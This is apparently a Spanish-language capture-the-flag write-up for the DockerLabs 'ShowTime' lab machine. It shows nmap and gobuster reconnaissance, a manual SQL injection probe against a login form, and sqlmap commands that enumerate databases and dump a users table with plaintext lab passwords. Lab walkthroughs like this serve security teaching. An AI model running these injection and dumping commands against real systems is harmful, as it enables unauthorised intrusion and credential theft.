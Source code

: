 ```yaml
---
title: ShowTime - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | maciiii___        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/bbac4d0b-be5f-47eb-b440-77de77cb249c)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p22,80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/5d5636f1-24fa-4a1e-a2f9-f58283e6b05c)

# Exploración Web
Al navegar al puerto `80`, encontramos una página la cual parece ser un casino, el cual se puede observar un panel de login.

![image](https://github.com/user-attachments/assets/8b0a912b-2560-4ab2-bdff-a13a3aa270a7)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/c3203ae4-dff2-4938-a70c-28346f56dc1d)

No encontramos nada interesante, asi que accedemos al apartado de login a ver si podemos hacer inyeccion.

## Inyeccion SQL

Para ello usaremos `sqlmap`, pero antes de ello haremos una prueba basica por si lo detecta sin necesidad de `slmap`.

```SQL
' UNION ORDER BY 1 -- -
```
![image](https://github.com/user-attachments/assets/fa7af2ce-2a6c-477e-9878-f1f9491540be)

Parece que no ha dado un error de mysql, por lo que podemos hacer inyeccion sql para hacerlo mas rapido usaremos , `sqlmap`.

![image](https://github.com/user-attachments/assets/39d2c2e8-5e90-4658-8a11-ad52451f197e)

Usaremos `burpsuite` para guardar la peticion con la extensio `.req`.

![image](https://github.com/user-attachments/assets/96c0bb58-a37e-4863-9dc3-cf1144b29567)

Ahora ejecutaremos los siguiente comandos.

Ver bases de datos
```bash
sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch --db
```
```sql
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users
```
Ver tablas
```bash
sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch -D users --tables
```
```sql
Database: users
[1 table]
+----------+
| usuarios |
+----------+
```
Usuarios y contraseñas
```bash
sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch -D users -T usuarios --dump
```
```sql
Database: users
Table: usuarios
[3 entries]
+----+----------------------+----------+
| id | password             | username |
+----+----------------------+----------+
| 1  | 123321123321         | lucas    |
| 2  | 123456123456         | santiago |
| 3  | MiClaveEsInhackeable | joe      |
+----+----------------------+----------+
```
